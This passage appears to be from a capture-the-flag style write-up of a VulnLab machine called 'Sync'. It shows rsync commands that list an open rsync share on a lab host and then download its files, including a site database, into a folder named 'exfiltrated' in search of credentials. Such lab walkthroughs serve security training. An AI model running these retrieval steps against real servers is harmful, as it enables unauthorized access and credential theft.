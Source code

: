 ```
syl@sylsec:~/vulnlab/Sync$ rsync -av --list-only rsync://10.10.64.96/httpd
receiving incremental file list
drwxr-xr-x          4.096 2023/04/20 22:50:04 .
drwxr-xr-x          4.096 2023/04/20 23:13:22 db
-rw-r--r--         12.288 2023/04/20 22:50:42 db/site.db
drwxr-xr-x          4.096 2023/04/20 22:50:50 migrate
drwxr-xr-x          4.096 2023/04/20 23:13:15 www
-rw-r--r--          1.722 2023/04/20 23:02:54 www/dashboard.php
-rw-r--r--          2.315 2023/04/20 23:09:10 www/index.php
-rw-r--r--            101 2023/04/20 23:03:08 www/logout.php

sent 23 bytes  received 228 bytes  167,33 bytes/sec
total size is 16.426  speedup is 65,44
```

We would see that there is an interesting file `httpd/db/site.db` which may contain some credentials, so let's get that file along with the other files.

```
syl@sylsec:~/vulnlab/Sync$ rsync -chavzP --stats rsync://10.10.64.96/httpd/ ./exfiltrated/
receiving incremental file list
./
db/
db/site.db
         12,29K 100%   11,72MB/s    0:00:00 (xfr#1, to-chk=3/8)
migrate/
www/
www/dashboard.php
          1,72K 100%    1,64MB/s    0:00:00 (xfr#2, to-chk=2/8)
www/index.php
          2,31K 100%    2,21MB/s    0:00:00 (xfr#3, to-chk=1/8)
www/logout.php
            101 100%   98,63kB/s    0:00:00 (xfr#4, to-chk=0/8)

Number of files: 8 (reg: 4, dir: 4)
Number of created files: 7 (reg: 4, dir: 3)
Number of deleted files: 0
Number of regular files transferred: 4
Total file size: 16,43K bytes
Total transferred file size: 16,43K bytes
Literal data: 16,43K bytes
Matched data: 0 bytes
File list size: 278
File list generation time: 0,001 seconds
File list transfer time: 0,000 seconds
Total bytes sent: 119
Total bytes received: 2,25K

sent 119 bytes  received 2,25K bytes  1,58K bytes/sec
total size is 16,43K  speedup is 6,95
```
